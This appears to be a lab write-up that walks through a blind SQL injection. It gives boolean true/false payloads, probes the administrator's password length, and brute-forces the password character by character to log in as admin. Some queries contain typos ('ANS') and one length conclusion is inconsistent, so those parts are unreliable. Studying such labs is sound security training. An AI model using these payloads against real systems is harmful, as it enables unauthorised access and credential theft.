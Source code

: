 Now we are going to conduct a Blind SQL Injection Attack on a vulnerable webpage

![image](https://user-images.githubusercontent.com/65653010/235386592-49967108-55ce-4e60-bf02-e6fb9af5ccb3.png)

To confirm that the parameter is vulnerable to blind SQL Injection we perform the query:

SELECT tracking-id FROM tracking-table WHERE trackingid='UooqxXf9ASLn57ZY' AND 1=1--

![image](https://user-images.githubusercontent.com/65653010/235389559-58017cb4-d22b-4ac7-a9c7-11644004bd09.png)

As the query is true, we find the response as 'Welcome back' Message

Now we give a false query

SELECT tracking-id FROM tracking-table WHERE trackingid='UooqxXf9ASLn57ZY' AND 1=2--

![image](https://user-images.githubusercontent.com/65653010/235389602-a3ea3098-1c54-4d12-b61c-cb47cc641b54.png)

As the query is false, we did not get a 'Welcome back' message

Now we verify thet there is a users table 

![image](https://user-images.githubusercontent.com/65653010/235390075-b07a747d-2db0-4433-9dc3-d56c3692593b.png)

As the response is a 'Welcome back' message, the users table is present and confirmed

Now let us confirm that username administrator exists users table

![image](https://user-images.githubusercontent.com/65653010/235391224-db855638-7ce5-4db1-b9e8-ec6f97adcd05.png)

Now we have confirmed it

Now we determine the length of the password by giving query

SELECT tracking-id FROM tracking-table WHERE TrackingId='UooqxXf9ASLn57ZY' ANS (SELECT USERNAME FROM USERS WHERE USERNAME='administrator' AND LENGTH(password)>1='a'--'

![image](https://user-images.githubusercontent.com/65653010/235393882-1be72594-e74e-4d40-9a30-0e20ddd0c9fd.png)

As it shows a 'Welcome Back' message it shows that the password length is greater than 1

Now if we perform the query

SELECT tracking-id FROM tracking-table WHERE TrackingId='UooqxXf9ASLn57ZY' ANS (SELECT USERNAME FROM USERS WHERE USERNAME='administrator' AND LENGTH(password)>20='a'--'

![image](https://user-images.githubusercontent.com/65653010/235394052-0d8741e2-73d7-471a-9169-e71e31a54fc3.png)

The response shows no 'Welcome Back' message, the password length is exactly 20

Now we determine the password by checking each character with each position.

![image](https://user-images.githubusercontent.com/65653010/235406926-92f62818-b7eb-40cd-978e-96c421c8c1da.png)

As we decode the password from intruder we get the password as '8kwtsz3a1hmw16w9mnb1' and login as administrator

![image](https://user-images.githubusercontent.com/65653010/235433781-d2adbaee-8608-4aeb-b454-0a6183102c93.png)
